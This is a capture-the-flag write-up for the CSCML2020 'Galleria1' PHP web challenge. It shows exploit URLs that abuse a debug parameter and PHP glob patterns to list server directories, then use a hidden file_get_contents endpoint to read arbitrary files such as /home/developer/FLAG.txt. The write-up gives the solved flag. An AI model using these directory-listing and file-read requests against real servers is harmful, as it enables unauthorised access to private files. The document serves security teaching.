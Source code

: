 # Galleria1
[![Generic badge](https://img.shields.io/badge/web-php-<COLOR>.svg)](https://shields.io/)

## Challenge

![challenge](images/challenge.png)

>I've opened a new gallery!
>
>134.122.94.112
>
>(wrap flag with CSCML2020{...})

## Solution

The webpage hosted at that IP address is full of css and js scripts. I've inspected all the possible loaded files but there is nothing suspicious. At the end of the html source code there is an interesting block of js code

```js
<script>
	// ~~~~~~  mY oWn CuStOm CoDe ~~~~~~  
	// Written by developer_user
	var canRun = 0;
    $(document).ready(function(){
        $.ajax({url: "get_files_items.php?debug=FALSE&folder=images", async: false, success: function(result){
        	$("#get_pictures").html(result);
		}});
		runMe();
	});
	
	// ~~~~~~ eNd mY oWn CuStOm CoDe ~~~~~~ 
    </script>  
```

So I've immediately tried to do this request with the debug activated

`view-source:http://134.122.94.112/get_files_items.php?debug=TRUE&folder=images`

![list dir1](images/list_dir1.png)

The result is a list of files contained in `images/`. Now I want to analyze all possible directories!

Since the request contains the argument `debug=TRUE`, the beginning of the file shows some debug lines that explain which functions are used:

```
DEBUG Message: Getting a list op all the files in folder: images from the param folder using PHP function 'glob'.

Code Debug:
$folder = $_REQUEST["folder"];
$pictues = glob($folder . "/*");
```

Long story short: it is possible to abuse the `glob` funtion to traverse the directory structure! However, it took me a lot of time to figure out how to exploit it. After a long search in Internet, I found the first useful [resource](https://stackoverflow.com/questions/14798220/how-can-i-search-sub-folders-using-glob-glob-module) in Stackoverflow:

>In Python 3.5 and newer use the new recursive **/ functionality

It was for Python but it works for PHP, as well.

`view-source:http://134.122.94.112/get_files_items.php?debug=TRUE&folder=**/`

Unfortunatly, I can just list the files but I can't see their content. The most useful are:

- `clue_folder_good_job//clue.txt`

- `php_folder_cant_find_me_by_brute_force//old_get_files_items.php` that prints the following: **Debug is OFF**!

So I made a request with the variable debug `view-source:http://134.122.94.112/php_folder_cant_find_me_by_brute_force//old_get_files_items.php?debug=TRUE`

and the output is:

```
Code Debug:
$file = $_REQUEST["file"];
print file_get_contents($file);
```

So `old_get_files_items.php` allows to show file content!

After a while I discover that

`http://134.122.94.112/get_files_items.php?debug=TRUE&folder=`

lists the directories in the root `/`:

![list dir2](images/list_dir2.png)

Finally, I found the flag file in the `/home` directory 

`http://134.122.94.112/php_folder_cant_find_me_by_brute_force/old_get_files_items.php?debug=true&file=/home/developer/FLAG.txt`

that contains

```
Code Debug:
$file = $_REQUEST["file"];
print file_get_contents($file);
S1FLAG.xDI0UiExW4pALibNe8aq4BDvHuk 
```

## Flag
`CSCML2020{S1FLAG.xDI0UiExW4pALibNe8aq4BDvHuk}`